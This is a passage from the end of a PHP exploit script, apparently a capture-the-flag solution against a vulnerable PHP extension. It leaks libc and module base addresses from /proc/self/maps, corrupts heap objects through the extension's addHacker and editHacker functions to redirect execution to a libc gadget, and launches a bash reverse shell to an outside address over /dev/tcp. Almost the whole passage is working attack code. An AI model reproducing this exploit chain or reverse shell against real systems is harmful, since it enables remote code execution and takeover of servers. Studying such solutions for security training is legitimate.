    return $addr;
}

function leakaddr($buffer){
    global $libc,$mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .*  \/usr\/local\/lib\/php\/extensions\/no-debug-non-zts-20230831\/vuln.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

function leak(){
    global $libc_base, $module_base, $libc, $mbase;

    ob_start("leakaddr");
    include("/proc/self/maps");
    $buffer = ob_get_contents();
    ob_end_flush();
    leakaddr($buffer);
    $libc_base=hexdec($libc[1][0]);
    $module_base=hexdec($mbase[1][0]);
}
function attack($cmd){
    global $libc_base, $module_base;
    $payload = str_pad(p64($module_base + 0x4038).p64(0xff), 0x40, "\x90");
    $gadget = p64($libc_base + 0x4c490);
    addHacker(str_repeat("\x90", 0x8), str_repeat("\x90", 0x30));
    addHacker($payload, str_repeat("\x90", 0x2f));
    addHacker(str_pad($cmd, 0x20, "\x00"), "114514");
    editHacker(0, $gadget);
}
function main(){
    $cmd = 'bash -c "bash -i >& /dev/tcp/114.514.19.19/810 0>&1"';
    leak();
    attack($cmd);
    removeHacker(2);
}

main();
?>
```

‍

‍

‍

‍

‍

‍

‍

‍

‍
